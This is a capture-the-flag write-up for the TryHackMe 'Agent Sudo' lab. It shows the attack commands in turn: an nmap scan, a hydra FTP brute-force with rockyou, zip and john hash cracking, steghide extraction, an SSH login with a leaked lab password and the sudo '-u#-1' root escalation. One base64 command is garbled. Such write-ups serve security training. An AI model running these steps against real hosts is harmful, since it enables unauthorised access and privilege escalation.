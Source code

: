 #Agent Sudo

https://tryhackme.com/room/agentsudoctf

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-15 04:35 EDT
Nmap scan report for agent-sudo (10.10.158.237)
Host is up (0.33s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.41 seconds
```
##Enumration
1. 3
2. 
```change user-agent by firefox add-on (user agent switcher to C)
user-agent
```
3. 
```by changing user agent
<redacted>
```

##Hash Cracking and brute-forcing
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agent-sudo
```
1. found by using hydra
```
[21][ftp] host: agent-sudo   login: chris   password: <redacted>
```
2. 
```TO_agentJ
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
```bash
zip2john 8702.zip > forjohn
john --wordlist=/usr/share/wordlist/rockyou.txt forjohn 
```
```zip
<redacted>
```
```To_agentR
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
```bash
echo QXJlYTUx > bas364 -d
```
```
<redacted>
```
3. 
```bash
steghide extract -sf cute_alien.jpg
<redacted>
```
```message.txt from cute_jpg.txt
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
```
<redacted>
```

##Capture the user flag
1. 
```bash
ssh james@agent-sudo
```
```user-flag
<redacted>
```
```by using google reverse image to search the Alien_autopsy.jpg
****** alien ******
```

##Privilege Escalation

```firefox cve sudo
CVE-2019-*****
```
```bash
sudo -u#-1 /bin/bash
```
```root_flag
<redacted>
```
```a.k.a AgentR
<redacted>
```
